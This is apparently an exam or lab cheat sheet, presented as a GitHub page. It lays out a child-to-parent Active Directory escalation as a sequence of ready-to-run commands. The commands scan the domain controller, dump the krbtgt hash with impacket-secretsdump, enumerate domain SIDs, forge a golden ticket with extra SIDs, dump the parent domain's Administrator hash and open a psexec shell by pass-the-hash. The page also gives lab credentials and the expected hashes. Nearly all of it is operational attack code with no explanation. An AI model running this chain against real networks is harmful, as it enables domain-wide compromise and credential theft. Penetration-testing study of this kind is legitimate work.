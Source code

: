 ### Domain Controller Discovery
```bash
# Identify Domain Controller
nslookup <domain_name>
dig <domain_name>

# Common DC IP from exam: 10.10.10.100
nmap -sS -sC -sV -p 88,135,139,389,445,636,3268,3269 10.10.10.100
```

### KRBTGT Hash Extraction
```bash
# Extract krbtgt hash from Child DC
impacket-secretsdump -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

# Expected output:
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
# krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
```

### SID Enumeration
```bash
# Extract Child domain SID
impacket-lookupsid child/corpmngr:'User4&*&*'@child.warfare.corp

# Extract Parent domain SID
impacket-lookupsid child/corpmngr:'User4&*&*'@warfare.corp

# Expected SIDs:
# Parent SID: S-1-5-21-3375883379-808943238-3239386119
# Child SID: S-1-5-21-3754860944-83624914-1883974761
```

### Golden Ticket Forging
```bash
# Forge golden ticket
impacket-ticketer -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 516 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr'

# Export ticket
export KRB5CCNAME=corpmngr.ccache

# Request service ticket
impacket-getST -k -no-pass -spn CIFS/dc01.warfare.corp corpmngr@child.warfare.corp
export KRB5CCNAME=corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
```

### Parent DC Compromise
```bash
# Extract Administrator hash from Parent DC
impacket-secretsdump -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator' -debug

# Expected hash: Administrator:500:aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283:::

# Access Parent DC
impacket-psexec -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283
```
